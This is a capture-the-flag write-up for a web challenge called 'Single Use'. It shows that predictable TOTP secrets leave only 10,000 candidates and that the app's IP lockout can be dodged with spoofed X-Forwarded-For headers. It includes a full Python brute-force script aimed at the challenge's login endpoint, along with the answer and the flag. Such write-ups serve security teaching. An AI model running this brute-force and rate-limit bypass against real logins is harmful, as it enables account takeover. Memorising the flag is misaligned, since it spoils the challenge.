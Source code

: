 # Single Use

Author: Tsuto

## Description

The Amalgemated Single-Use Plasticware Co. has a new security system for their sales dashboard and boasts that nobody will ever get access to it. Can you prove them wrong?

## Solution

The first step in this challenge is to create an account and generate an authenticator code. After the account is created, both QR code and the base32 OTP code is shown.

![](img/dashboard.png)

When the OTP code is decoded it is shown to be equal to 0000008881. This OTP code follows the template of 000000(0001-9999), which gives 10,000 possible OTP codes. Using PyOTP, bruteforcing the code becomes a trivial task. However, after 10 failed login attempts, the clients IP is blocked.

To bypass this mechanism the X-Forwarded-For header must be used to trick the application into believing the origin of the request was from a different location. Using these bypasses results in the following script below.

```python
from requests import post
from base64 import b32encode
import pyotp
import random

url = "https://web-single-use-w7vmh474ha-uc.a.run.app:443/api/login"
IP = '127.0.0.1'

OTPcodes = []
for i in range(10000):
    OTPcodes.append('000000' + '{0:04}'.format(i))

for code in OTPcodes:
    totp = pyotp.TOTP(b32encode(bytes(code.strip(), 'utf-8')))
    password = totp.now()

    IP = str(random.randrange(256)) + '.' + str(random.randrange(256)) + '.' + str(random.randrange(256)) + '.' + str(random.randrange(256))
    
    headers = {"Content-Type": "application/json", "X-Forwarded-For": IP}
    data = {"code": password, "username": "admin"}

    resp = post(url, headers=headers, json=data)

    if("success" in resp.text):
        print(code.strip() + ': ' + password + ': ' + resp.text)
        exit()
```

This script finds that the admins OTP code is 0000000195. This is used to generate the TOTP and login as admin.

![](img/admin-dashboard.png)

Flag: `USCG{5p0rk_l0v3rs_un1t3}`
